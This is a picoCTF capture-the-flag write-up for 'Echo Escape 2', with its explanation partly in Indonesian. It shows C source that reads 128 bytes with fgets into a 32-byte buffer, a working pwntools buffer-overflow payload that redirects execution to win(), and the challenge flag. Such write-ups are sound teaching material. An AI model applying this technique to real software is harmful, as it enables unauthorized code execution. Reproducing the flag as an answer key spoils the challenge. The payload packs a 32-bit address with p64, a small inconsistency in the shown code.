



# Echo Escape 2


The developer has learned their lesson from unsafe input functions and tried to secure the program by using fgets(). Unfortunately, they didn’t use it correctly. Can you still find a way to read the flag? You can also download the program here and its source code.

Connect to the program with netcat: 
nc dolphin-cove.picoctf.net 60832.

Author: Yahaya Meddy

Hint : fgets() is safer than gets(), but only if used with the correct buffer size.

## Source Code

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "r");
    if (!fp) {
        perror("[!] Could not open flag.txt");
        exit(1);
    }

    char flag[128];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fflush(stdout);
    fclose(fp);
}

void vuln() {
    char buf[32];

    printf("Enter the secret key: ");
    fflush(stdout);

    fgets(buf, 128, stdin);

    printf("You entered:, %s\n", buf);
}

int main() {
    vuln();
    puts("Goodbye!");
    return 0;
}
```
## Solve

Main akan memanggil fungsi vuln() yang menampilkan “Enter the secret key:” lalu meminta input user. Terdapat kerentanan di mana besar input adalah 128 sementara besar buffer adalah 32 --> bisa di-overflow. 



Karena ini 32 bit, cyclic langsung muncul di memori jadi tinggal dihitung offsetnya  44
Selanjutnya untuk berpindah ke fungsi win, kita perlu menambahkan alamat fungsi win ke dalam payload. Cek apakah terdapat PIE



Karena gaada, tinggal hardcode setelah cari di objdump
`08049276 <win>:`

Full payload :
```
from pwn import *
p = remote('dolphin-cove.picoctf.net', 53103)
payload = b'A'* 44 + p64(0x8049276)
p.sendline(payload)
p.interactive()
```

### Flag: `picoCTF{fgets_0v3rfl0w42_9311310a}`